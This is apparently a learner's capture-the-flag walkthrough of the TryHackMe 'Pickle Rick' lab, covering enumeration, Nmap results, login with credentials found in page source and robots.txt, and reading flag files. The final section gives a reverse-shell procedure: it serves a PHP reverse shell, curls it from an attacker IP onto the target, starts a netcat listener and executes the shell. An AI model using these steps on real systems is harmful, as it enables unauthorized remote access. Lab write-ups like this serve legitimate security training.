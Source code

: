 <mark style="background: #BBFABBA6;">Web URL</mark>

started with url enumeration found a username on the source code of 

https://10-10-171-77.p.thmlabs.com/


<!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->



machine are running really slow, maybe its my connection


Found this on view-source:http://10-10-171-77.p.thmlabs.com/robots.txt


	Wubbalubbadubdub


Also found /assets but nothing more


<mark style="background: #BBFABBA6;">Nmap</mark>


root@ip-10-10-89-17:~# nmap -sT -sV 10.10.89.17

Starting Nmap 7.60 ( https://nmap.org ) at 2023-02-03 15:32 GMT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 77.78% done; ETC: 15:33 (0:00:12 remaining)
Stats: 0:01:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 15:34 (0:00:12 remaining)
Nmap scan report for ip-10-10-89-17.eu-west-1.compute.internal (10.10.89.17)
Host is up (0.00014s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http          WebSockify Python/3.6.9
111/tcp  open  rpcbind       2-4 (RPC #100000)
389/tcp  open  ldap          OpenLDAP 2.2.X - 2.3.X
3389/tcp open  ms-wbt-server xrdp
5901/tcp open  vnc           VNC (protocol 3.8)
6001/tcp open  X11           (access denied)
7777/tcp open  cbt?
7778/tcp open  interwise?
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :


<mark style="background: #BBFABBA6;">Gave up and used the writeup to see what i missed</mark>

Following the writeup:

https://github.com/luisrodrigues154/Cyber-Security/blob/master/TryHackMe/PickleRick/notes.md





So there was a login page 

https://10-10-171-77.p.thmlabs.com/login.php


used the data we found till now to login and was successful

username: R1ckRul3s
password: Wubbalubbadubdub




so i also tried multiple commands and tried to view the files but was unsuccessful and followed the writeup

	cat Sup3rS3cretPickl3Ingred.txt
	Command disabled

	strings Sup3rS3cretPickl3Ingred.txt

	mr. meeseek hair


so i didtn even knew there was a command called strings - added to things learnt - [[Strings instead of cat to read a file]]

so now we got out first ingredient or flag

<mark style="background: #BBFABBA6;">Now for second ingredient</mark>

	strings clue.txt
got this

	Look around the file system for the other ingredient.

Follwed the write up

i used this command:

	cd /home && ls -al
followed with

	cd /home/rick && ls -al

followed with 
	strings /home/rick/second\ ingredients

and got the second ingredient:

1 jerry tear


<mark style="background: #BBFABBA6;">final ingredient</mark>

tried accessing the /root folder

So here we just host a server on our local machine. Host a reverse php sheel on it


and download it on the target machine(/tmp folder) and execute it

Local

```
cp /usr/share/webshells/php/php-reverse-shell.php revshell.php
python -m SimpleHTTPServer
```

Here since we are running on python 3 the comand to be used here is 

	python -m http.server

Remote

```
curl "http://10.9.128.84:8000/revshell.php" > /tmp/rev.php

strings /tmp/rev.php (just to check)
```

Now listen on the port that was set in the revshell file

```
nc -lnv 9999
```

Just exec the shell on the remote

```
php /tmp/rev.php &
```


followed the above steps and got the 3rd falg


here I also learned how to make a php reverse sheel and execute it

added to Things learnt